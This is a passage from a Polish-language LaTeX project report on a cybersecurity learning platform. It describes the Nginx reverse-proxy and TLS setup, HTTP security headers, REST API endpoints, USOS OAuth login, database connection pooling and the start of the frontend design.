    \end{itemize}
    \item \texttt{course\_tasks} - powiązanie zadań z kursami.
    
    \item \texttt{tags} / \texttt{task\_tags} - system etykiet (tematów) do kategoryzacji zadań.
    \item \texttt{submission\_results} - przechowuje wyniki weryfikacji zgłoszenia: 
    \begin{itemize}
        \item \texttt{submission\_id} - unikalny, klucz obcy do \texttt{submissions};
        \item \texttt{status} - status zadania spośród \texttt{queued/processing/completed/error};
        \item \texttt{score} - wartość liczbowa oceny, w zakresie 0-100;
        \item \texttt{message} - informacja zwrotna od prowadzącego;
        \item \texttt{checked\_at} - czas zakończenia sprawdzania.
    \end{itemize}
\end{itemize}



\subsection{Konfiguracja serwera Nginx jako odwrotnego proxy}
W celu przygotowania aplikacji do pracy w środowisku produkcyjnym w architekturze kontenerowej wprowadzono serwer \texttt{nginx} pełniący rolę reverse proxy, terminatora SSL oraz serwera plików statycznych dla frontendu React. Poniżej opisano szczegóły implementacji i napotkane problemy.

\subsubsection{Architektura}
W \texttt{docker-compose.yml} został zdefiniowany serwis \texttt{nginx}, który:
\begin{itemize}
    \item nasłuchuje na portach 80 (HTTP) i 443 (HTTPS);
    \item przekierowuje cały ruch HTTP na HTTPS (przekierowanie 301);
    \item obsługuje ruch HTTPS z wykorzystaniem certyfikatu SSL (samopodpisanego);
    \item przekazuje zapytania do API z prefiksem \texttt{/api/} do kontenera \texttt{web:8000} (backend FastAPI);
    \item serwuje pliki statyczne frontendu (zbudowanego stawiając kontener) z katalogu \\\texttt{/usr/share/nginx/html}.
\end{itemize}

Frontend React zbudowany został w pierwszym etapie budowania obrazu Nginx, co eliminuje potrzebę osobnego kontenera serwującego aplikację kliencką. Wynikiem jest pojedynczy, lekki obraz zawierający wyłącznie serwer HTTP oraz gotowe pliki frontendu.

\subsubsection{Rate limiting}
W konfiguracji zdefiniowano dwa limity szybkości zapytań:
\begin{itemize}
    \item \texttt{api\_limit}: 10 żądań na sekundę (z możliwością krótkotrwałego wzrostu do 20), stosowany dla lokalizacji \texttt{/api/};
    \item \texttt{static\_limit}: 100 żądań na sekundę (burst 50) dla plików statycznych frontendu.
\end{itemize}

Dzięki temu, system jest chroniony przed nadmiernym ruchem, a jednocześnie dynamiczne API ma bardziej restrykcyjny limit niż zasoby statyczne. 

\subsubsection{Terminacja SSL i certyfikat samopodpisany}
Jako jedyny punkt wejścia do systemu, serwer Nginx przejmuje odpowiedzialność za szyfrowanie komunikacji. W pliku konfiguracyjnym zostały zdefiniowane dwa bloki \texttt{server}:
\begin{itemize}
    \item nasłuch na porcie 80 (HTTP) - każde żądanie jest natychmiast przekierowywane na HTTPS z kodem 301;
    \item nasłuch na porcie 443 (HTTPS) - ruch jest odszyfrowywany, a następnie przekazywany dalej (do frontendu lub backendu).
\end{itemize}
Takie podejście, znane jako \textit{terminacją SSL}, odciąża pozostałe serwisy od operacji kryptograficznych i centralizuje zarządzanie certyfikatami.

W ramach projektu wykorzystany został certyfikat samopodpisany, wygenerowany poleceniem:
\begin{lstlisting}[language=bash]
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
  -keyout privkey.pem -out fullchain.pem -subj "/CN=localhost"
\end{lstlisting}
Pliki \texttt{fullchain.pem} i \texttt{privkey.pem} umieszczone są w katalogu \texttt{nginx/ssl} i montowane do kontenera.

Dodatkowo, w celu zapewnienia bezpieczeństwa warstwy transmisji, zastosowano następujące parametry TLS:
\begin{itemize}
    \item \texttt{ssl\_protocols TLSv1.2 TLSv1.3} - wyłączono przestarzałe i podatne na ataki wersje protokołu;
    \item \texttt{ssl\_ciphers HIGH:!aNULL:!MD5} - wymuszono silne zestawy szyfrów.
\end{itemize}

\textbf{Ograniczenia certyfikatu samopodpisanego:} przeglądarki internetowe wyświetlają ostrzeżenie o niezaufanym wystawcy, ponieważ certyfikat nie został podpisany przez żaden urząd certyfikacji (CA). Jest to zachowanie poprawne. W środowisku produkcyjnym należy go zastąpić certyfikatem zaufanym, np. wystawionym przez Let's Encrypt. Próba wysłania nieszyfrowanego żądania HTTP bezpośrednio na port 443 kończy się błędem \texttt{400 Bad Request}, co potwierdza prawidłowe odrzucanie niezabezpieczonego ruchu.

\subsubsection{Nagłówki bezpieczeństwa HTTP}
Aby zwiększyć odporność aplikacji na typowe ataki po stronie klienta, \texttt{nginx} dodaje do każdej odpowiedzi szereg nagłówków bezpieczeństwa. Poniżej opisano zastosowane dyrektywy:

\begin{itemize}
    \item \texttt{X-Frame-Options: SAMEORIGIN} - zapobiega osadzaniu strony w ramce (\textit{iframes}) na zewnętrznych witrynach, co chroni przed atakami typu \textit{clickjacking}.
    \item \texttt{X-Content-Type-Options: nosniff} - blokuje zgadywanie typu MIME przez przeglądarkę, wymuszając ścisłe przestrzeganie deklarowanego \texttt{Content-Type}. Przeciwdziała atakom polegającym na podmianie interpretacji plików (np. wgranie pliku JavaScript jako obraz).
    \item \texttt{X-XSS-Protection: 1; mode=block} - włącza wbudowany filtr XSS w przeglądarkach (tam, gdzie jest jeszcze obsługiwany) i nakazuje blokowanie strony po wykryciu ataku.
    \item \texttt{Strict-Transport-Security: max-age=31536000; includeSubDomains} - nagłówek HSTS informuje przeglądarkę, że przez najbliższy rok (31536000 sekund) wszystkie połączenia z tą domeną (i jej poddomenami) muszą odbywać się wyłącznie przez HTTPS. Zapobiega to atakom \textit{SSL stripping}.
\end{itemize}

Wszystkie nagłówki opatrzone są flagą \texttt{always}, co gwarantuje ich dołączenie nawet do odpowiedzi błędów (np. 404, 503) - w przeciwnym razie dla niektórych kodów stanu \texttt{nginx} mógłby je pominąć.

Konfiguracja w pliku \texttt{nginx.conf}:
\begin{lstlisting}[language=bash]
add_header X-Frame-Options "SAMEORIGIN" always;
add_header X-Content-Type-Options "nosniff" always;
add_header X-XSS-Protection "1; mode=block" always;
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
\end{lstlisting}

\begin{figure}[htbp]
  \centering
    
\includegraphics[width=0.8\textwidth]{images/backend/headery.png}
  \caption{Nagłówki bezpieczeństwa widoczne w narzędziach deweloperskich przeglądarki.}
  \label{fig:headers}
\end{figure}

\newpage

\subsubsection{Testy, spostrzeżenia i wnioski}
Po uruchomieniu stosu (\texttt{docker compose up -d}) przeprowadzono testy poprawności działania Nginx. Poniżej znajduje się zbiór wniosków działania systemu:

\begin{enumerate}
    \item \textbf{Przekierowanie HTTP na HTTPS:} wywołanie \texttt{http://localhost} zwraca kod 301 i nagłówek \texttt{Location: https://localhost/}. Przeglądarka automatycznie przechodzi na "bezpieczne" połączenie, co jest zamierzonym efektem;
    \item \textbf{Serwowanie frontendu:} po załadowaniu \texttt{https://localhost} w przeglądarce (z zaakceptowaniem ostrzeżenia o niezaufanym certyfikacie) wyświetla się strona logowania React;
    \item \textbf{Proxy API:} zapytanie \texttt{GET https://localhost/api/public-tasks} zwróciło poprawną odpowiedź JSON z backendu (lista zadań);
    \item \textbf{Problem z bezpośrednim dostępem przez HTTP na porcie 443:} próba ręcznego wysłania zapytania HTTP (zamiast HTTPS) na port 443 kończy się błędem 400 Bad Request. Jest to zachowanie poprawne - Nginx odrzuca nieszyfrowane żądania na porcie 443, co zapobiega przypadkowemu wysyłaniu danych bez szyfrowania;
\end{enumerate}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.8\textwidth]{images/backend/blad400.png}
  \caption{Błąd 400 otrzymany po próbie połączenia http na porcie 443.}
  \label{fig:flow}
\end{figure}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.8\textwidth]{images/backend/przekierowanie_http.png}
  \caption{Fragment logów pokazujący przekierowanie z http na https.}
  \label{fig:flow}
\end{figure}

Integracja Nginx znacząco podnosi bezpieczeństwo i gotowość produkcyjną platformy. Zastosowane praktyki (terminacja SSL, nagłówki bezpieczeństwa, rate limiting, rozdzielenie ruchu) stanowią solidną podstawę do dalszego rozwoju i ewentualnego skalowania horyzontalnego poprzez dodanie kolejnych instancji backendu.

\subsection{Interfejs REST API}
Strona backend'u systemu udostępnia zbiór endpointów zorganizowanych tematycznie, według zastosowania. Część z nich jest publiczna, jednakwiększość wymaga aktywnej sesji użytkownika (potwierdzonej po zalogowaniu przez CAS USOS). 

Poniżej znajduje się lista ścieżek interfejsu API backend'u. Wszystkie ścieżki opisano w stosunku do adresu \texttt{http://localhost:8000}. W dokumentacji interaktywnej Swagger (generowanej automatycznie przez FastAPI pod adresem \texttt{/docs}) dostępne są dokładne modele żądań i odpowiedzi.

\begin{figure}[H]
  \centering
  
\includegraphics[width=1\textwidth]{images/backend/swagger.png}
  \caption{Prezentacja dokumentacji Swagger.}
  \label{fig:flow}
\end{figure}

\subsubsection{Endpointy publiczne}
\begin{itemize}
    \item \texttt{GET /login} - inicjuje przepływ OAuth; zwraca przekierowanie na stronę USOS;
    \item \texttt{GET /callback} - punkt powrotny z USOS; wymienia token tymczasowy na dostępowy, pobiera dane użytkownika, zapisuje je w bazie i tworzy sesję;
    \item \texttt{GET /public-tasks} - zwraca listę wszystkich zadań (tylko identyfikator i tytuł); dostępny bez logowania.
\end{itemize}


\subsubsection{Endpointy chronione (wymagają zalogowania)}
Wszystkie poniższe trasy są zgrupowane w routerze \texttt{protected\_router} i korzystają z zależności \texttt{get\_current\_user} sprawdzającej sesję.

\subsubsection*{Profil i kursy}
\begin{itemize}
    \item \texttt{GET /profile} - zwraca dane zalogowanego użytkownika (imię, nazwisko, typ - opisane w sekcji \ref{sec:backend_data_structure});
    \item \texttt{GET /my-courses} - pobiera listę kursów zalogowanego użytkownika z bieżącego semestru (dane z USOS). Uwzględniono ręczne filtrowanie najnowszego semestru;
    \item \texttt{GET /courses/\{course\_id\}/tasks} - zadania przypisane do konkretnego kursu.
\end{itemize}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=1\textwidth]{images/backend/my-courses.png}
  \caption{Plik JSON zwracany przez endpoint \texttt{my-courses}.}
  \label{fig:flow}
\end{figure}


\subsubsection*{Zadania i tagi}
\begin{itemize}
    \item \texttt{GET /assigned\_tasks} - lista id i tematów przypisanych użytkownikowi zadań;
    \item \texttt{GET /tasks} - lista zadań przypisanych bezpośrednio użytkownikowi (np. przez prowadzącego). W porównaniu z poprzednim endpointem zwraca pełne informacje o zadaniach (pliki, etc.);
    \item \texttt{GET /tasks/\{task\_id\}} - szczegółowe informacje o zadaniu: dane podstawowe, według opisu struktury danych w sekcji \ref{sec:backend_data_structure}: tytuł, opis, poziom trudności, języki, lista tagów, pliki startowe (ścieżka, język, zawartość) oraz ostatnie przesłane rozwiązanie (jeśli istnieje);
    \item \texttt{GET /tasks/\{task\_id\}/files} - zwraca listę plików dla danego zadania;
    \item \texttt{GET /topics} - lista dostępnych tagów (tematów);
    \item \texttt{GET /topics/\{tag\_id\}/tasks} - zadania przefiltrowane według wybranego tagu.
\end{itemize}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=1\textwidth]{images/backend/zadania_tag.png}
  \caption{Przykładowa, niepełna lista zadań dla tagu \texttt{SQL Injection}.}
  \label{fig:flow}
\end{figure}


\subsubsection*{Składanie rozwiązań i postęp}
\begin{itemize}
    \item \texttt{POST /tasks/\{task\_id\}/submit} - wysłanie rozwiązania. Przyjmuje listę plików w formacie \texttt{[\{"path": ..., "language": ..., "content": ...\}, ...]}. Zwraca identyfikator zgłoszenia (\texttt{submission\_id});
    \item \texttt{GET /submissions} - historia wszystkich zgłoszeń zalogowanego użytkownika (id zgłoszenia, id zadania, tytuł zadania);
    \item \texttt{GET /tasks/\{task\_id\}/submission} - ostatnie zgłoszenie dla danego zadania (drzewo plików);
    \item \texttt{PATCH /tasks/\{task\_id\}/progress} - aktualizacja statusu zadania (np. \texttt{inProgress}, \texttt{done}) i czasu ostatniego wyświetlenia.
\end{itemize}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=1\textwidth]{images/backend/submissions.png}
  \caption{Przykładowa lista \texttt{submissions}.}
  \label{fig:flow}
\end{figure}

\subsubsection*{Weryfikacja rozwiązań}
\begin{itemize}
    \item \texttt{GET /submissions/\{submission\_id\}/result} - zwraca wynik sprawdzania zgłoszenia: status, wynik liczbowy, komunikat, czas weryfikacji.
\end{itemize}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=1\textwidth]{images/backend/results.png}
  \caption{Przykładowy wynik po sprawdzeniu niewykonanego zadania.}
  \label{fig:flow}
\end{figure}

\newpage

\subsubsection{Metody przeznaczone stricte dla prowadzących zajęć}
W warstwie dostępu do danych zdefiniowano funkcje niezbędne do zarządzania systemem, przydatne dla prowadzących. Aktualnie, z uwagi na fakt iż zespół nie posiadał dostępu do konta z typem "prowadzący", nie są one wystawione przez HTTPS:
\begin{itemize}
    \item \texttt{create\_task\_with\_files} - tworzy zadanie wraz z plikami startowymi i tagami;
    \item \texttt{update\_task}, \texttt{delete\_task} - modyfikacja i usuwanie zadań;
    \item \texttt{assign\_task} - przypisywanie zadania wybranemu studentowi;
    \item \texttt{create\_course}, \texttt{add\_task\_to\_course} - tworzenie kursów i przypisywanie do nich zadań.
\end{itemize}

Funkcje te są dostępne jedynie z poziomu wewnętrznych skryptów (np. \texttt{scripts/add\_task.py}), co stanowi świadomą decyzję zabezpieczającą - na obecnym etapie nie udostępniono ich przez HTTPS. W przyszłości planowane jest dodanie odpowiednich tras chronionych sprawdzeniem uprawnień (\texttt{teacher\_router}).

\subsection{Integracja z USOS}

Logowanie i uwierzytelnianie odbywa się w oparciu o protokół OAuth 1.0a. Moduł \texttt{usos\_api} zawiera implementację wszystkich niezbędnych kroków:
\begin{enumerate}
    \item \texttt{get\_request\_token} - aplikacja pobiera tymczasowy token żądania z USOS.
    \item \texttt{authorize\_token} - generowany jest adres URL, na który użytkownik zostaje przekierowany w celu zalogowania i wyrażenia zgody.
    \item Po powrocie na \texttt{/callback} weryfikowany jest token i przy pomocy \texttt{get\_access\_token} wymieniany na token dostępowy oraz sekret.
    \item \texttt{get\_user} - przy użyciu tokena dostępowego pobierane są dane użytkownika z USOS.
    \item Tokeny przechowywane są w sesji serwerowej (cookie podpisane kluczem sekretnym), co umożliwia kolejne żądania bez ponownego logowania.
    \item \texttt{revoke\_access\_token} - podczas wylogowania token dostępowy jest unieważniany po stronie USOS.
\end{enumerate}
Dane dostępowe (klucz konsumencki, sekret) pobierane są ze zmiennych środowiskowych, co umożliwia łatwą zmianę konfiguracji między środowiskami, i zapewnia że klucze nie są dostępne w publicznym repozytorium. Oznacza to, oczywiście, że systemowe klucze muszą być konfigurowane i aktualizowane w prywatnym środowisku systemu.

\subsection{Pooling połączeń}

\subsubsection{Zarządzanie połączeniami z bazą danych i automatyczne inicjowanie zadań}
Backend współpracuje z relacyjną bazą danych PostgreSQL. W środowisku wielowątkowym (FastAPI + Gunicorn) nie wystarcza pojedyncze, współdzielone połączenie - konieczne jest zarządzanie pulą połączeń, która umożliwia bezpieczne współbieżne zapytania. Równocześnie, aby ułatwić wdrożenie i testowanie, w kontenerze backendu zaimplementowano skrypt automatycznie ładujący zadania z pliku JSON przy starcie serwisu.

\subsubsection*{Pula połączeń (\texttt{pool.py})}
W pliku \texttt{backend/pool.py} zdefiniowano globalną pulę wykorzystującą \newline \texttt{psycopg2.pool.ThreadedConnectionPool}. Parametry połączenia pobierane są ze zmiennych środowiskowych, które domyślnie wskazują na kontener \texttt{db}. Przy starcie aplikacji (zdarzenie \texttt{startup} FastAPI) wywoływana jest funkcja \texttt{init\_pool}, która czeka na dostępność bazy (z ponawianiem prób) i tworzy pulę o rozmiarze od 5 do 20 połączeń. Podczas zamykania serwera (\texttt{shutdown}) pula jest zamykana funkcją \texttt{close\_pool}.

Każdy endpoint pobiera połączenie przez \texttt{get\_connection(timeout=5)} i po użyciu zwraca je do puli (\texttt{release\_connection}). Jeśli w ciągu 5 sekund nie uda się pozyskać wolnego połączenia, zgłaszany jest wyjątek \texttt{HTTPException 503}, informujący o przeciążeniu serwera.

\subsubsection{Automatyczne ładowanie zadań}
W katalogu \texttt{backend/scripts/} znajduje się skrypt \texttt{add\_tasks\_from\_json.py} (wywoływany przez \texttt{entrypoint.sh} przed uruchomieniem serwera Gunicorn). Jego zadaniem jest odczytanie pliku \texttt{scripts/tasks/tasks.json} i utworzenie w bazie wszystkich zdefiniowanych tam zadań, o ile jeszcze nie istnieją. Każde zadanie ma unikalny atrybut \texttt{num}, który pozwala uniknąć duplikatów przy kolejnych restartach kontenera.

Skrypt łączy się z bazą (również z ponawianiem), po czym dla każdego obiektu w JSON wywołuje wcześniej zaimplementowaną funkcję \texttt{create\_task\_with\_files}, która tworzy zadanie, przypisuje mu pliki startowe oraz tagi.

Takie podejście gwarantuje, że po pierwszym uruchomieniu środowiska baza od razu zawiera przykładowe zadania, co przyspiesza testy manualne i demonstracje działania platformy.

\subsection{Bezpieczeństwo}
Poniżej znajduje się zbiór zabezpieczeń systemu z perspektywy backend'u, połączeń sieciowych, udostępnionych danych etc., które nie zostały opisane we wcześniejszych rozdziałach raportu: 
\begin{itemize}
    \item \textbf{Sesje} - klucz sesji jest pobierany ze zmiennej \texttt{SESSION\_SECRET}; wygenerowany komendą openssl rand -base64 32; 
    \item \textbf{CORS} - dozwolone są tylko żądania z adresu frontendu zdefiniowanego w \texttt{FRONTEND\_URL};
    \item \textbf{Walidacja danych wejściowych} - FastAPI wymusza typy, ale nie ma ograniczeń rozmiaru treści na poziomie aplikacji. Rozmiar treści jest limitowany przez serwer Nginx;
    \item \textbf{Połączenie z bazą} - dane logowania do bazy są przekazywane przez zmienne środowiskowe.
\end{itemize}

\subsection{Podsumowanie}
Zrealizowana część serwerowa platformy nauki cyberbezpieczeństwa stanowi solidną bazę pod dalszy rozwój. Oferuje ona:
\begin{itemize}
    \item bezpieczną autoryzację przez CAS USOS;
    \item zarządzanie użytkownikami i kursami;
    \item przechowywanie i obsługę wieloplikowych zadań oraz rozwiązań;
    \item system tagów i przeglądania zadań;
    \item asynchroniczne kolejkowanie sprawdzania rozwiązań;
    \item wewnętrzne narzędzia do zarządzania treścią zadań;
    \item warstwę odwrotnego proxy opartą na Nginx, przygotowującą środowisko do pracy produkcyjnej.
\end{itemize}

\newpage


\section{Frontend systemu}

\subsection{Wstęp}
Frontend aplikacji umożliwia wykonywanie zadań programistycznych i śledzenie postępu nauki bezpiecznego programowania. 

\subsection{Ustalony plan prac}
\begin{enumerate}
    \item Analiza wstępnych założeń projektu;
    \item Projekt interfejsu graficznego (makiety);
    \item Implementacja struktury komponentów interfejsu graficznego;
    \item Integracja z warstwą backend;
    \item Testy integracyjne systemu.
\end{enumerate}

\subsection{Stos technologiczny}
Frontend został zaimplementowany w bibliotece React (v19.2.4), języku JavaScript przy użyciu systemu budowania Vite (v7.2.2).
Wykorzystano następujące biblioteki zewnętrzne:
\begin{itemize}
    \item \textbf{React Router DOM} - routing w aplikacji;
    \item \textbf{@monaco-editor/react} - edytor kodu podświetlający składnię;
    \item \textbf{react-complex-tree} - renderowanie wielopoziomowego drzewa plików w zadaniu;
    \item \textbf{@dnd-kit/react} - mechanizm drag and drop;
    \item \textbf{react-markdown} - renderowanie tekstu z plików markdown;
    \item \textbf{lucide-react} - ikony interfejsu użytkownika.
\end{itemize}

\subsection{Projekt interfejsu graficznego}
Prace nad częścią Frontend aplikacji zostały rozpoczęte od zaprojektowania interfejsu graficznego w technologii Figma. Projekt wykonano w oparciu o wzorzec Atomic Design.

\subsubsection{Podstawowe zasoby}
W ramach projektu aplikacji w Figma wyznaczono podstawowe kroje i rozmiary czcionek, wyszczególniono podzbiór ikon z zasobów Lucide i określono bazową paletę kolorystyczną. Wszystkie pozostałe komponenty korzystają z tych zasobów, aby interfejs był spójny i łatwo modyfikowalny bez wykorzystania "luźnych", niezdefiniowanych kolorów lub czcionek. 

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.25\linewidth]{images/frontend/figma/basics/typography.png}
    \caption{Warianty typograficzne.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/basics/icons.png}
    \caption{Zbiór ikon Lucide wykorzystanych w projekcie.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/basics/palette.png}
    \caption{Paleta kolorów. O lewej: kolory edytora kodu, bazowe kolory interfejsu, kolory akcentujące.}
\end{figure}

\subsubsection{Atomy}
Podstawowe, pojedyncze komponenty bazujące na wyszczególnionych zasobach. Komponenty te posiadają warianty zależne od ustawionego stanu.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/atoms/labels_atoms.png}
    \caption{Warianty etykiet wykorzystujące warianty typograficzne.}
\end{figure}

\begin{figure}[H]
    \centering
